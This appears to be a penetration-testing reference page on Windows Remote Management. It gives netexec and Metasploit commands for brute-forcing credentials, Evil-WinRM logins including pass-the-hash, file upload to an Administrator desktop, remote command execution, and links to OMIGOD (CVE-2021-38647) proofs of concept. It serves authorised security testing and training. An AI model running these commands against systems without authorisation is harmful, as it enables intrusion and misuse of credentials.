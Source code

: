 ```yaml
---
title: WinRM (Windows Remote Management) Pentesting
description: The Microsoft implementation of WS-Management Protocol which provides a common way for systems to access and exchange management information across an IT infrastructure. Default ports are 5985 (HTTP), 5986 (HTTPS), and also used 47001.
tags:
    - Windows
refs:
    - https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-38647
date: 2024-02-18
draft: false
---
```


## Enumeration

### Brute Force Credentials

```sh
netexec winrm <target-ip> -d DOMAIN -u usernames.txt -p passwords.txt 

# Metasploit
msfconsole
msf > use auxiliary/scanner/winrm/winrm_login
```

<br />

## Connect with Evil-WinRM

**[Evil-WinRM](https://github.com/Hackplayers/evil-winrm)** is a Windows Remote Management shell for pentesting.  
Below are list of commands for each situation.

### Connect

```powershell
evil-winrm -i <target-ip> -u username -p password
# -P: Specifify port
evil-winrm -i <target-ip> -P 5986 -u username -p password

# Pass The Hash (-H)
evil-winrm -i <target-ip> -P 5986 -u username -H 0e0363213e37b94221497260b0bcb4fc

# PowerShell Local Path (-s)
evil-winrm -i <target-ip> -u username -p password -s /opt/scripts

# SSL enabled (-S)
evil-winrm -i <target-ip> -u username -p password -S
```

If you have private key and public key, you can use them for authentication.

```sh
# -S: SSL
# -k: private key
# -c: public key
evil-winrm -i <target-ip> -S -k private.key -c public.key
```

### Commands

After connecting, we can use a lot of useful commands to exploit.  
Note that **we need to specify the absolute path for uploading and downloading.**

```powershell
# Upload a local file to Windows machine
PS> upload ./example.bat c:\\Users\Administrator\Desktop\exploit.bat
# Download a file to local
PS> download c:\\Users\Administrator\Desktop\example.txt ./example.txt

# List all services
PS> services
```

<br />

## Command Execution with NetExec

```sh
# -x: Execute a command
netexec winrm <target-ip> -d DOMAIN -u username -p password -x 'whoami'
netexec winrm <target-ip> -d DOMAIN -u username -p password -X '$PSVersionTable'

# -H: Login with Pass The Hash
netexec winrm <target-ip> -d DOMAIN -u username -H <HASH> -x 'whoami'
```

<br />

## OMIGOD (CVE-2021-38647)

Open Management Infrastructure (OMI) is vulnerable to Remote Code Execution (RCE).

There are many PoC available, for instance:

- [https://github.com/AlteredSecurity/CVE-2021-38647](https://github.com/AlteredSecurity/CVE-2021-38647)
- [https://github.com/horizon3ai/CVE-2021-38647](https://github.com/horizon3ai/CVE-2021-38647)
